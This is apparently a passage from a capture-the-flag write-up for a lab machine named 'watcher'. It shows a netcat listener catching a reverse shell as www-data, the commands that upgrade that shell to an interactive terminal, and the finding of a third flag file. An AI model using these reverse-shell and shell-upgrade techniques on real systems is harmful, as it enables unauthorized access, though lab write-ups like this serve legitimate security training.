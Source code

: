 ```terminal
$ nc -lnvp 1234                                                                                                                                   [142/144]
listening on [any] 1234 ...                                                                                                                                  
connect to [10.11.31.131] from (UNKNOWN) [10.10.18.205] 36444                                                                                                
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux                                                  
 10:58:02 up 19 min,  0 users,  load average: 0.00, 0.02, 0.11                                                                                               
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                                                          
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                                        
/bin/sh: 0: can't access tty; job control turned off                                                                                                                                                                                                                                                               
$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                             
www-data@watcher:/home$ export TERM=xterm                                                                                                                    
export TERM=xterm
www-data@watcher:/home$ ^Z
zsh: suspended  nc -lnvp 1234

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234

www-data@watcher:/home$

```

## Flag 3

Great, we got a shell, i have executed some commands to get a functional shell:

```terminal
 [target machine] python3 -c 'import pty;pty.spawn("/bin/bash")'

 [target machine] export TERM=xterm

 [target machine] ctrl+z

 [attacker machine] stty raw -echo;fg
```

We can find our third flag here:

```terminal
www-data@watcher:/var/www/html/more_secrets_a9f10a$ ls                                                                                                       
flag_3.txt
```
